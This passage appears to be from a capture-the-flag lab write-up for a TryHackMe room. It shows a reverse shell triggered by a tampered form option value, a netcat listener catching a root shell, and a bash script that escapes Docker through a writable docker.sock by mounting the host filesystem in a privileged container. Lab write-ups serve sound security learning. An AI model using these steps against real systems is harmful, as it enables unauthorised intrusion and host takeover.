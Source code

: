 but why `/uploads` is still empty...

because it is uploading your file into to `/uploads` directory where `lottery.php` and `finance.php` is hosted
so in order to activate your reverse shell, simply change the Select Feature option to this

```
<option value="uploads/<YOUR_REVERSE_SHELL>.php" >Lottery Feature</option>
```

setting up the listener and we will get our shell

```
┌──(kali㉿kali)-[~/CTF/tryhackme/rooms/sequence]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.14.89.8] from (UNKNOWN) [10.10.118.206] 45938
Linux 4f18a45cca05 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 GNU/Linux
#id
uid=0(root) gid=0(root) groups=0(root)
```

# root

doing some enumeration we can see that we are inside **docker**!

in order to escape the container we are going to exploit docker socket where we have write access

```
# ls -la /var/run/docker.sock
srw-rw---- 1 root 121 0 Sep 22 00:24 /var/run/docker.sock
```

luckily docker binary is present on the container

Using a small wrapper script I launched a privileged container from the same image with the host filesystem mounted and chrooted into it to obtain a host root shell.

```
#!/bin/bash

# Privilege Escalation through /var/run/docker.sock exploitation

echo "[*] Getting Container Image..."
image=$(docker ps --no-trunc --format '{{.Image}}')
echo "[+] Extracted Image: ${image}"
echo "[*] Trying to get Shell..."
docker run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host $image chroot /host
```

After chrooting, I read /root/flag.txt to get the root flag.

```
#
# cd /root
# ls -la
total 68
drwxr-x--- 12 root root 4096 Jun  4 11:58  .
drwxr-xr-x 19 root root 4096 Sep 21 19:14  ..
lrwxrwxrwx  1 root root    9 Feb  4  2024  .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019  .bashrc
drwxr-xr-x  3 root root 4096 Feb  2  2024  .cache
drwx------  3 root root 4096 Feb  2  2024  .config
drwxr-xr-x  3 root root 4096 Nov 10  2021  .local
-rw-------  1 root root  131 Jun  4 10:18  .mysql_history
-rw-r--r--  1 root root  161 Dec  5  2019  .profile
-rw-r--r--  1 root root   66 Feb  1  2024  .selected_editor
drwx------  2 root root 4096 Nov 10  2021  .ssh
drwxr-xr-x  2 root root 4096 Feb  2  2024  bin
```